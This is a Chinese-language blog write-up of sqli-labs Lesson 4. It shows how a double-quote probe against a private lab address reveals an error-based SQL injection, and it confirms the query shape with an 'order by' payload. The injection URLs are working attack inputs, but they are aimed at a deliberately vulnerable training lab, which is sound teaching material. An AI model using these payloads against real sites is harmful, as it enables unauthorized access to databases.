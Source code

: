 ```yaml
---
title: sqli-labs lession-4 基于错误的GET双引号字符型注入
date: 2018-09-20 09:08:58
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs lession-4 基于错误的GET双引号字符型注入 #

## 登录界面 ##

![1](https://i.imgur.com/J6A7U4R.png)

## 注入过程 ##

题目提示是基于错误的,根据提示应该先判断错误类型。前三课分别使用了

* 1	`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`
* 2 `$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`
* 3	`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

所以不可能是上面的3种。尝试下双引号。

`http://10.60.250.214/less/Less-4/?id=1%22`

![2](https://i.imgur.com/DVv5q5W.png)

返回报错信息:

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1`

根据返回的错误信息猜测到SQL语句的源码应该为:

`$sql="SELECT * FROM users WHERE id=("$id") LIMIT 0,1";`

查看SQL语句,果然如此。

![3](https://i.imgur.com/Z0Eor43.png)

`http://10.60.250.214/less/Less-4/?id=1") order by 100%23`

![4](https://i.imgur.com/89fae8M.png)

成功！！！

剩下的操作无论是手注还是使用SQLMAP都和Lesson-1一样。

具体流程可以查看这里。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1 %}